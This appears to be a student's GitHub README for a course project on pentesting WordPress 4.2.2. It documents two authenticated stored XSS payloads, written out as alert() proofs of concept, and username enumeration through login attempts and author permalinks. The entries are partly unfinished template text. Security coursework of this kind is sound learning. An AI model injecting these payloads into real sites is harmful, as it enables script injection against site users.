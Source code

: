 # Wordpress-vs-Kali
Week 7
# Project 7 - WordPress Pentesting

Time spent: **9** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required)  Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.3.2
  - [x] GIF Walkthrough: ![image](https://i.gyazo.com/12ebc32af0d6a198aa6f980135175fcf.gif)
  - [x] Steps to recreate: 
    - Get posting privileges from admin, then exploit how HTML is processed and paste the following code onto the post: 
    ```
     <a href="[caption code=">]</a><a title=" onmouseover=alert('exploited')  ">link</a>
    ```

  - [x] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
1. (Required) YouTube URL Embeds Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.7.0
  - [x] GIF Walkthrough: [![Image from Gyazo](https://i.gyazo.com/42f2efeaa5d5ed7cc471d78e18178fd4.gif)](https://gyazo.com/42f2efeaa5d5ed7cc471d78e18178fd4)
  - [x] Steps to recreate: 
  - Comment the following on a post: 
    ```
     http://youtube.com/watch?v=exploit<svg onload=alert('Virus')>
    ```
  - [x] Affected source code:
    - media.php
1. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:
    - Tested in version: 4.2.2
    - Fixed in version: Not fixed
  - [x] GIF Walkthrough: [![Image from Gyazo](https://i.gyazo.com/75f3781e86ee15a7cec0073b6119c2ed.gif)](https://gyazo.com/75f3781e86ee15a7cec0073b6119c2ed)
  - [x] Steps to recreate: 
    - Simply log in with different usernames to see whether the user exists. Unfortunately this is also possible through permalinks:
    ```
    http://example.com/author/[insertusernamehere]
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [Gyazo](http://www.gyazo.com).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2020] [Jong Shen Lee]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
